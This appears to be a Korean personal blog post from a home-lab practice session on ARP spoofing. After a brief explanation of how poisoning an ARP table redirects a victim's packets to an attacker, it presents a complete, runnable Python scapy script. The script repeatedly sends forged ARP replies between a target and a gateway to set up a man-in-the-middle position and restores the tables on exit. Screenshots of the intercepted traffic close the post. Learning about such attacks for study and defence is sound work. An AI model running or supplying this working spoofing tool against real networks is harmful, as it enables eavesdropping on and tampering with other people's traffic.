 ```yaml
---
layout: post
title: "Arp Spoof 실습"
date: 2020-05-04
excerpt: "Arp Spoof"
tags: [Arp,Network, hacking]
comments: true
---
```


## Arp Spoofing

컴퓨터의 Mac주소를 IP주소로 변경해주기 위해 라우터내에는 Arp Table이 존재한다.
그 Arp Table에 접근하여 피해자의 Mac주소를 공격자의 Mac주소로 변경하여
피해자에게 전송되는 패킷을 갈취하는 행위이다.

공격자의 ip는 192.168.0.101
피해자의 ip는 192.168.0.1


{% highlight python %}
{
    import scapy.all as scapy
import argparse
import sys
import time

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t","--target",dest="target",help="Specify target ip")
    parser.add_argument("-g","--gatway",dest="gateway",help="Specify spoof ip")
    return parser.parse_args()

def restore(destination_ip, source_ip):
    destination_mac = get_Mac(destination_ip)
    source_mac = get_Mac(source_ip)
    packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac,psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4, verbose=False)

def get_Mac(ip):
    arp_packet = scapy.ARP(pdst=ip)
    broadcast_packet = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_broadcast_packet=broadcast_packet/arp_packet
    answered_list = scapy.srp(arp_broadcast_packet, timeout=1, verbose=False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip,spoof_ip):
    target_mac = get_Mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac,psrc=spoof_ip)
    scapy.send(packet,verbose=False)

arguments = get_arguments()
sent_packets = 0
try:
    while True:
        spoof(arguments.target, arguments.gateway)
        spoof(arguments.gateway, arguments.target)
        sent_packets +=2
        print("\r[+] Sent packets:"+str(sent_packets)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[-] Ctrl+C detected...Restoring ARP Tables Please Wait!")
    restore(arguments.target, arguments.gateway)
    restore(arguments.gateway, arguments.target)
}
{% endhighlight %}
 

{% capture images %}
https://user-images.githubusercontent.com/49140815/140677578-3719cbc3-8a03-4254-bd73-84dfc194f43d.JPG
https://user-images.githubusercontent.com/49140815/140677612-24f9ff11-07b6-4f56-add3-55933c1b2e23.JPG
{% endcapture %}
{% include gallery images=images caption="공격이전 이후 Arp Table" cols=2 %}

{% capture images %}
https://user-images.githubusercontent.com/49140815/140677686-8eef551b-9387-44f0-a358-77f9cb39aae7.JPG
{% endcapture %}
{% include gallery images=images caption="공격자의 패킷확인" cols=1 %}

공격자의 화면에서 전송되는 패킷을 확인 할수있다